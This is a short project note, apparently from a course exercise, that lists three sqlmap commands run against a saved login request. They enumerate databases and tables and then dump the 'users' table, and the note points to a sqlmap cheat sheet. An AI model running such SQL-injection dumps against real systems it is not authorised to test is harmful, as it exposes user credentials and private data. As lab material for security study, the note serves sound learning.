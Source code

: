 # Command used

```
python sqlmap.py -r "E:\VSCode\JMPL_A_2024\sqlmap_files\login" --data="email=admin&password=admin1234" --tables --dbs --output-dir="E:\VSCode\JMPL_A_2024\sqlmap_files"

python sqlmap.py -r "E:\VSCode\JMPL_A_2024\sqlmap_files\login" --data="email=admin&password=admin1234" -D jmpl_a_2024 --dump --output-dir="E:\VSCode\JMPL_A_2024\sqlmap_files"

python sqlmap.py -r "E:\VSCode\JMPL_A_2024\sqlmap_files\login" --data="email=admin&password=admin1234" -D jmpl_a_2024 -T users --dump --output-dir="E:\VSCode\JMPL_A_2024\sqlmap_files"


```

more references goes to [StationX](https://www.stationx.net/sqlmap-cheat-sheet/) or just google it yourself